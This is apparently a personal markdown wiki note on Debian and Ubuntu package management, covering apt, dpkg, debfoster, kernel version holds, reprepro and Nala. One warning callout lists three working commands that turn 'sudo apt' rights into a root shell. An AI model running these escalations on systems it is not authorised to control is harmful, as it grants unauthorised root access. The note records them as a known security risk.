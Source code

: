```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```

# Debian

## Distros

|           | Codename   | Release    | End-of-life |
| --------- | ---------- | ---------- | ----------- |
| Debian 12 | [bookworm] | 2023-06-10 |             |
| Debian 11 | [bullseye] | 2021-08-14 |             |
|           |            |            |             |

## Repositories and Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.


### dpkg

```bash
## extract package
dpkg -x [-X] <package> <destination>
## compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

Tags: #linux/apt

```bash
# Add repository: add file in `/etc/apt/sources.list.d/` with
# deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main

# Install specific version
sudo apt install package_name=package_version
# empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
apt-get clean
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
>  echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
>  sudo apt-get install -c $TF sl
> ```

- [apt-fast](https://github.com/ilikenwf/apt-fast) (unofficial package): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package


#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```


#### reprepro

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
## add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
## test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
## actually pull changes to target channel: replace checkpull by pull
```


#### Nala

[Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


### References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>
[bullseye]: <https://www.debian.org/releases/bullseye/>
[bookworm]: <https://www.debian.org/releases/bookworm/>
